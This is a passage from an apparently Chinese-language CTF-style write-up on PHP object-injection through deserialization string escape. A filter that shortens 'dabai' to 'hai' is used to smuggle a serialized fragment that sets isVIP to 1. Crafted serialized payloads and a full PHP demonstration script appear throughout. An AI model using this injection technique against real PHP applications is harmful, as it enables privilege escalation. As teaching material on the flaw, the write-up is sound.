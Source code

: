 ```
";s:8:"password";s:6:" //长度是22
```

我们要传11个dabai

```
O:4:"user":3:{s:8:"username";s:55:"haihaihaihaihaihaihaihaihaihaihai";s:8:"password";s:6:"123456";s:5:"isVIP";i:0;}
```

这里username值的长度是55，所以它的值就是`haihaihaihaihaihaihaihaihaihaihai";s:8:"password";s:6:"`

我们要进行逃逸的字符串：

```
";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;} //将isVIP的值变成1
```

我们将它赋值给password，输出

```
O:4:"user":3:{s:8:"username";s:55:"haihaihaihaihaihaihaihaihaihaihai";s:8:"password";s:47:"";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:5:"isVIP";i:0;}
```

取出来`haihaihaihaihaihaihaihaihaihaihai";s:8:"password";s:47:`它的长度是55，但这里还多出一个`"`，这里是因为password值的长度从6变成了47（字符串长度增了1）

我们再添加一个dabai，长度再减2

完整代码：

```php
<?php
class user
{
    public $username;
    public $password;
    public $isVIP;
    public function __construct($u, $p)
    {
        $this->username = $u;
        $this->password = $p;
        $this->isVIP = 0;
    }
}

function filter($obj) {
    return str_replace("dabai","hai",$obj);
}

$obj = new user('dabaidabaidabaidabaidabaidabaidabaidabaidabaidabaidabaidabai','a";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}');
$obj = filter(serialize($obj));
echo $obj."\n";
var_dump(unserialize($obj));
?>
```

